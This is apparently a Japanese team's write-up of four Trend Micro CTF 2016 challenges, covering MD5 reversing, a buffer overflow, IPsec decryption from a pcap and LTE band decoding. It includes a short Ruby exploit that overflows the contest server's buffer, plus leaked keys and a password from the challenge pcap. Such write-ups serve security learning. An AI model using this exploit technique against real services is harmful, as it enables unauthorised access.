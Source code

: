 +++
date = "2016-08-17T00:17:26+09:00"
title = "Trend Micro CTF 2016 Online qualifier"
categories = ["Write-ups"]

+++

日本時間 2016-07-30 13:00 から 2016-07-31 13:00まで（24時間）に行われた[Trend Micro CTF 2016](http://www.trendmicro.co.jp/jp/sp/ctf2016_jp/)のwrite-upです。

urandomは4問解答し600点、92位でした。

Analysis-Offensive 100をyyu、Analysis-Offensive 200、Misc 100、Misc 200をmaythが解答しました。


# Analysis - Offensive 100

> Category: Analysis/Offensive
>
> Points: 100
>
> Please enter key. Key is TMCTF flag.
> 
> Download the file
> Decrypt the downloaded file by the following command.
> 
> `openssl enc -d -aes-256-cbc -k x0nSTZ9NrDgvCnqKhL9y -in files1.enc -out files1.zip`
> 
> `unzip files1.zip`

この問題は巨大なJavaScriptから正解の鍵を得るというものです。
まず、巨大なJavaScriptのうちの多くの部分は定数をGoogleで調べるなどすると、MD5を実装しているということが分かります。そして、次の3つの文字列もMD5のハッシュ値であろうという推測ができます。

```javascript
var ko = "c33367701511b4f6020ec61ded352059";

var ka = "61636f697b57b5b7d389db0edb801fc3";

var kq = "d2172edf24129e06f3913376a12919a4";
```

これらをまたGoogleで調べると、それぞれ次のような文字列であることが分かります。

- `c33367701511b4f6020ec61ded352059` → `654321`
- `61636f697b57b5b7d389db0edb801fc3` → `qwerty`
- `d2172edf24129e06f3913376a12919a4` → `admin`

そして次の処理でこれらの文字列を変数`nl`に従って並び換えているということが分かります。

```javascript
var c = "", d = "", e = "";
for (var f = 0; f < b.length; ) {
    c += b[nl[++f]];
    d += b[nl[++f]];
    e += b[nl[++f]];
}

// ......中略......

var nl = [ 0, 2, 1, 12, 7, 15, 5, 4, 8, 16, 17, 3, 9, 10, 14, 11, 13, 6, 0 ];
```

最終的にフラグは`TMCTF{q6r4dy5ei2na1twm3}`でした。


# Analysis - Offensive 200

> Category: Analysis - offensive
>
> Points: 200
>
> This challenge is composed of a simple remote overflow of a global array. The server address is 52.197.128.90 and the vulnerable application listens on TCP port 80-85. Each port has the same behavior so you can select one of them.
>
> The following code contains a bug that can be exploited to read back a flag:
>
```c
int pwned;
char buffer[1024];

DWORD WINAPI CallBack(LPVOID lpParameter) {
	pwned = 0;
	ZeroMemory(buffer, 1024);
	SOCKET *sock = (SOCKET *)lpParameter;
	SOCKET _sock = *sock;
	send(_sock, "Welcome", 8, 0);
	int ret = 0;
	ret = recv(_sock, buffer, 1028, 0);
	printf("[x] RET: %d.\n", ret);
	printf("[x] PWNED: 0x%x.\n", pwned);
	Sleep(1);
	if (((pwned >> 16)&0xFFFF ^ 0xc0fe) == 0x7eaf && (((pwned & 0xFFFF)^0x1a1a) == 0xdae4)) {

			send(_sock, "PWNED", 5, 0);
			ReadAndReturn(L"key.txt", _sock);
			closesocket(_sock);
			return 0;
	}
	else {
		send(_sock, "GO AWAY", 7, 0);
		closesocket(_sock);
	}

	return 0;
 }
```
>
>
> Craft a packet that would return a valid flag. Good luck!

`buffer`が1024バイトしか確保されていないにもかかわらず、11行目で `ret = recv(_sock, buffer, 1028, 0);` と1028バイト読み込むようになっている。したがって、1025-1028バイトの範囲に特定のバイト列を仕込めばよい。満たすべき条件は15行目のif文。

なぜか `nc` が1024バイトで送信を打ち切ってしまったので、Rubyで書いた。

```ruby
require 'socket'

HOST = '52.197.128.90'
port = (80..85).to_a.sample

puts "connecting #{HOST}:#{port}"
sock = TCPSocket.open('52.197.128.90', port)

payload = 'a' * 1024 + "\xfe\xc0\x51\xbe"

sock.read(8)
sock.send(payload, 0)
while r = sock.gets
  puts r
end
```

そして正解をメモし忘れた 😇


# Misc 100

> Category: Misc(iot and network)
>
> Points: 100
>
> Please analyze this pcap.

pcapファイルが渡される。中身を見ると、IPsecな通信と、普通にtelnetしている通信がある。

Wiresharkでtelnetでのやりとりをテキストとして見ると、 `ip xfrm state`を叩いている箇所がある。

```
.]0;reds@localhost:~.[reds@localhost ~]$ sudo ip xfrm state
.sudo ip xfrm state
[sudo] password for reds: ynwa
.
src 1.1.1.11 dst 1.1.1.10
	proto esp spi 0xfab21777 reqid 16389 mode tunnel
	replay-window 32 flag 20
	auth hmac(sha1) 0x11cf27c5b3357a5fd5d26d253fffd5339a99b4d1
	enc cbc(aes) 0xfa19ff5565b1666d3dd16fcfda62820da44b2b51672a85fed155521bedb243ee
src 1.1.1.10 dst 1.1.1.11
	proto esp spi 0xbfd6dc1c reqid 16389 mode tunnel
	replay-window 32 flag 20
	auth hmac(sha1) 0x829b457814bd8856e51cce1d745619507ca1b257
	enc cbc(aes) 0x2a340c090abec9186c841017714a233fba6144b3cb20c898db4a30f02b0a003d
src 1.1.1.10 dst 1.1.1.11
	proto esp spi 0xeea1503c reqid 16389 mode tunnel
	replay-window 32 flag 20
	auth hmac(sha1) 0x951d2d93498d2e7479c28c1bcc203ace34d7fcde
	enc cbc(aes) 0x6ec6072dd25a6bcb7b9b3b516529acb641a1b356999f791eb971e57cc934a5eb
src 1.1.1.11 dst 1.1.1.10
	proto esp spi 0xd4d2074d reqid 16389 mode tunnel
	replay-window 32 flag 20
	auth hmac(sha1) 0x100a0b23fc006c867455506843cc96ad26026ec0
	enc cbc(aes) 0xdcfbc7d33d3c606de488c6efac4624ed50b550c88be0d62befb049992972cca6
```

この情報を元に、IPsecの通信の中身を見ることができる。すると、HTTPでいくつかやりとりをしている箇所が見つかる。その中に `flag.png` というファイルのダウンロードが含まれている。これを抽出して開くと、フラグが書かれている。


# Misc 200

> Category: Misc(iot and network)
>
> Points: 200
>
> find all LTE bands this phone supported.
>
> the final answer will be from small to big, and use ',' to seperate without spaces.
>
> example> if the answer is band 1 and 2 and 3, the key should be: "TMCTF{1,2,3}"

`ModemSettings.txt` というファイルが与えられ、そこからその携帯電話の対応しているLTEバンドを答える。

この `ModemSettings.txt` はどうやら NV-items_reader_writerというソフトウェアによる出力らしい。

LTEのバンドに関する設定は"6828"番にあるという。該当する箇所を引用する。

```
6828 (0x1AAC)   -   OK
FF 1D 1F 03 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

ここに書き込まれている数値が対応LTEバンドを表している。ビット単位で読んで、あるビットが立っていたら、そのビットと対応するバンドをサポートしていることを意味している。最右ビットがバンド1に対応する。

寝起きでつらいワンライナーを書いておしまい。エンディアンに注意。

```ruby
i=0; puts (0x031F1DFF).to_s(2).reverse.split(//).map { |c| i +=1; [c, i] }.select { |x| x[0] == '1' }.map { |x| x[1] }.join(',')
```

